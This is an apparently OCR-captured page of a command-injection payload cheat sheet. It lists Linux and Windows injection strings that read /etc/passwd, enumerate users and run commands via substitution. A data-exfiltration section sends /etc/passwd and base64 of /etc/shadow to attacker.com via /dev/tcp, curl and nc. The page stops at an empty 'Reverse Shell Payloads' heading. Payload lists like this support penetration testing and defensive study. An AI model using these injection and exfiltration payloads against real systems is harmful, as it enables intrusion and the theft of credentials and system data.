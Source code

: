 ### Direct Command Execution

Basic command injection techniques that directly execute commands:

```bash
# Linux commands
; cat /etc/passwd
; ls -la /
; id
; pwd

# Windows commands
& dir C:\
& type C:\Windows\System32\drivers\etc\hosts
& whoami
& net user
```

### Command Substitution

Using command substitution to execute commands and return output:

```bash
# Backtick syntax
`id`
`whoami`
`cat /etc/passwd`

# Dollar syntax
$(id)
$(whoami)
$(cat /etc/passwd)

# Nested execution
$(echo `whoami`)
`echo $(id)`
```

### Data Exfiltration

Methods to extract data from the system:

```bash
# File reading
$(cat /etc/passwd > /dev/tcp/attacker.com/4444)
; base64 /etc/shadow | curl -d @- http://attacker.com

# System enumeration
; find / -perm -4000 2>/dev/null
; netstat -an | nc attacker.com 4444
```

### Reverse Shell Payloads
